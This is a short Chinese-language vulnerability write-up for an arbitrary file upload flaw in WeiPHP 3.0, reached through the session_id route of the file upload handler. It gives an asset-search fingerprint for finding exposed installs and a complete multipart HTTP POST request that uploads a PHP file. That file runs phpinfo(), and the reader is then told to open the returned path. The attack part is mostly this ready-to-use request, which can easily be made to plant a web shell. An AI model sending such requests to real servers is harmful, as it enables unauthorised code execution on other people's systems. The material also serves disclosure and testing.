

# WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>WeiPHP3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="weiphp"</a-checkbox></br>

## 漏洞复现

登陆页面标识


发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```



获取目录后访问回显的 path


